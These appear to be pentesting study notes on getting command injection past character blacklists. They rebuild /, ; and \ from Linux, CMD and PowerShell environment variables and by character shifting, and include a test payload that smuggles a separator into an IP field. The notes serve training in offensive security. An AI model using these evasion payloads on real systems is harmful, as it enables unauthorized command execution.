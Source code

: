 Very common blacklisted character: / or \ (since it specifies directories)

## Linux
Use Linux Environment Variables: ${IFS} from:
```
printenv
```

**Forwardslash (/)
If we do this:
```
echo ${PATH}
```
- This prints out: /usr/local/bin:/usr/bin:/bin:/usr/games

So, if we use the Linux Environment Variable, like this:
```
echo ${PATH:0:1}
```
- It prints out /
- Start at 0th character and take a string length of 1

**Semi-colon (;)
```
${LS_COLORS:10:1}
```

Test payload:
```
127.0.0.1${LS_COLORS:10:1}${IFS}
```
- Success


## Windows CMD
To do the same thing, echo a Windows variable, specify starting position, and negative end position

**Backslash (/)
```
echo %HOMEPATH:~6,-11%
```


## Windows PowerShell
```
Get-ChildItem Env:
```

**Backslash (\)
```
$env:HOMEPATH[0]
```


## Character Shifting

**Backslash (\)
```
man ascii
echo $(tr '!-}' '"-~'<<<[)
```
- [ has ascii #91, so one shift to the right is \
